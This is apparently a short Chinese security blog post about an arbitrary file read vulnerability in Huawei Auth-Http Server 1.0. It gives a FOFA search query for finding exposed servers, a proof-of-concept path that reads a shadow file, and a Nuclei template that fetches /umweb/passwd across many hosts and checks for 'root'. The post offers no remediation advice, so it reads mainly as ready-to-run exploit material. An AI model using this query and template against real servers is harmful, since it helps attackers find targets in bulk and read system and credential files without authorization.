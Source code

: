 # 原创
：  华为Auth-Http Serve任意文件读取

# 华为Auth-Http Serve任意文件读取

> 
<h3>公众号：掌控安全EDU 分享更多技术文章，欢迎关注一起探讨学习</h3>


### 1.漏洞描述

华为Auth-Http Server 1.0任意文件读取，攻击者可通过该漏洞读取任意文件。

### 2.网络资产查找

**FOFA：server=”Huawei Auth-Http Server 1.0”**

### 2、部分界面如下

### 3、Poc

**/umweb/shadow**

### 4、Poc批量验证

```
id: huanwei-auth-http-server-fileread

info:
name: 华为Auth-Http Server 1.0任意文件读取
author:
severity: medium
description: 华为Auth-Http Server 1.0任意文件读取，攻击者可通过此漏洞获取敏感信息。

reference:
- https://
metadata:
fofa-query: server="Huawei Auth-Http Server 1.0"
verified: true
max-request: 1

http:
- raw:
- |
GET /umweb/passwd HTTP/1.1
Host: {{Hostname}}


matchers:
- type: dsl
dsl:
- 'status_code==200 &amp;&amp; contains_all(body,"root")'
```
